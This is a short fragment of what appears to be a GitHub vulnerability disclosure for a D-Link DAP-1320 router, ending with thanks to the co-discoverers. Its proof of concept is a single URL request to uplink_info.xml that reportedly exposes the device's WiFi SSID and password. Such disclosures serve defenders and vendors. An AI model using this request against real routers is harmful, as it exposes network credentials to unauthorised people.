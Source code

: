 #### PoC
http://targetip/uplink_info.xml
you can get the WIFI SSID and password
！[poc](https://github.com/dahua966/Routers-vuls/blob/master/DAP-1320/info_leak.png)

#### Acknowledgement
Thanks to the partners who discovered the vulnerability together：
Jian-bin Ye

Wei Xie

Zhen-hua Wang

En-Ze Wang
